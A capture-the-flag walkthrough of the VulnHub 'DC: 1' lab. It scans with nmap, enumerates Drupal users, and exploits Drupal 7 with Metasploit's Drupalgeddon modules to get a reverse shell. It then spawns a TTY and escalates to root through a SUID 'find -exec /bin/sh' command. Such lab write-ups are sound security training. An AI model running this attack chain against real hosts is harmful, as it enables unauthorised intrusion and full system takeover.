 # DC: 1
[VulnHub link](https://www.vulnhub.com/entry/dc-1,292/)  
By DCAU

* As with [Mr-Robot: 1](https://github.com/leegengyu/CTF-Walkthrough/blob/master/mr-robot-1.md), we are first greeted with a login page that requires users to specify both the username and the password: 
![](/screenshots/dc-1/LoginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-1/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.7`.
* The host is running SSH (port 22), HTTP (port 80) and rpcbind (port 111) services, where the ports for these 3 servers are open.
* Run `nmap -p- -A 10.0.2.7`:
![](/screenshots/dc-1/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, there is an Apache httpd web server running on port 80, with the website being run by a `Drupal CMS`.
* Moreover, there appears to be a long list of results from the `robots.txt` file as well.
* Open `10.0.2.7` on our browser and we have the welcome page greeting us with a login panel on the left-hand side:
![](/screenshots/dc-1/SiteWebServer.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* I tried a couple of passwords on the account with the username `admin`, with my attempts being spaced out over 3 hours, but I was greeted with this message on the most recent attempt:
![](/screenshots/dc-1/AccountTemporarilyBlocked.jpg)
* I guess that means that we can rule out brute-forcing attempts to get an account access.
* At the same time, I found that the login page did not reveal any hints about whether the account (username) existed, with a failed attempt resulting in this error message:
![](/screenshots/dc-1/invalidLogin.jpg)
* However, if you get the account-temporarily-blocked message as shown above, or if you go to `Request new password` and attempt to recover your password, you would be able to deduce if the particular user existed.
* For the latter, these are the 2 different messages that you encounter when you submit the username or email address of a valid user vs. invalid user:
![](/screenshots/dc-1/AdminUsername.jpg)
* The page source is somewhat long (compared to the other ones that I have seen thus far from the 3 other vulnerable VMs) at around 100-150 lines. However, I could not quite seem to find any noteworthy information from it.
* Visiting `robots.txt`, we see a long list of disallow directories, files and paths:
![](/screenshots/dc-1/robotsTxt.jpg)
* I did not attempt to visit all of them, but from my quick sampling, the directories forbidded access, while the pages gave an access-denied message too.
* I went on to find out more about the CMS that ran the site, which is Drupal who is running on version 7. This was interesting for me because the previous vulnerable VMs were all running on WordPress.
* I ran a quick Google search and found that Drupal 7 had various vulnerabilities that we could exploit.
* Running `msfconsole`, I searched for modules pertaining to Drupal: `search drupal`:
![](/screenshots/dc-1/msfconsoleSearchResults.jpg)
* We can either `use exploit/multi/http/drupal_drupageddon` or `use exploit/unix/webapp/drupal_drupalgeddon2`.
* Whichever module that we use, we would first `show options` to see what module option settings is required of us to set.
* There are many parameters in both of the modules, but we would only have to edit RHOST (which is left empty initially): `set RHOST 10.0.2.7`.
* Run show options again to confirm that we have the correct parameters set:
![](/screenshots/dc-1/drupalDrupageddon.jpg)
![](/screenshots/dc-1/drupalDrupalgeddon2.jpg)
* Run `exploit` (not showing 2 screenshots here because running the exploit command for both results in the same output):
![](/screenshots/dc-1/exploit.jpg)
* Enter `sysinfo` to confirm that we have a reverse shell on the right machine and then enter `shell`: we find that we are now user `www-data`.
* Next, we need a privilege escalation in order to get `root` and before continuing further, we will spawn an interactive TTY shell first: `python -c 'import pty; pty.spawn("/bin/bash")'`.
* We will next be finding a list of binaries that have the setuid bit enabled on the vulnerable VM: run `find / -user root -perm -4000 -print 2>/dev/null`.
![](/screenshots/dc-1/suidExecutables.jpg)
* Out of all the binaries returned as part of our `find` command, we will be using `/usr/bin/find`.
* Normally, we will use the `find` command to search for files, but we will not be specifying any file names in our command (and it will not throw out the entire list of available files as well). Instead, we will use the `-exec` command, which will execute the command to spawn a shell, which turns out to give us `root`.
* Run `find -exec "/bin/sh" \;`:
![](/screenshots/dc-1/findCommandPrivilegeEscalation.jpg)
* Note: Using `/bin/bash` instead will result in a non-root shell. This has nothing to do with the fact that we spawned an interactive TTY `/bin/bash` shell earlier on. I tried to set the TTY shell to `/bin/sh`, but having `/bin/bash` at this point still results in a non-root shell. I suspect that this has to do with existing .bash setting files.
* Note: You can also run the same `find` command with an existing file name (typed out in file including the file extension). The directory that I was in had a bunch of files, the first of which is `COPYRIGHT.txt`. Just add this file name after `find` and before `-exec`. However, this command will not work with a non-existent file name, or if the file extension is missing.
* We are now `root`. To get our flag, we head to `/root`, and open `thefinalflag.txt`:
![](/screenshots/dc-1/thefinalflag.jpg)
* Note: Running `exit` to terminate our root shell seems to have no effect at all. I could only send a terminate signal (CTRL + C) to the channel, which sends us straight back to our meterpreter terminal.
* Hurray, that is the end of this challenge!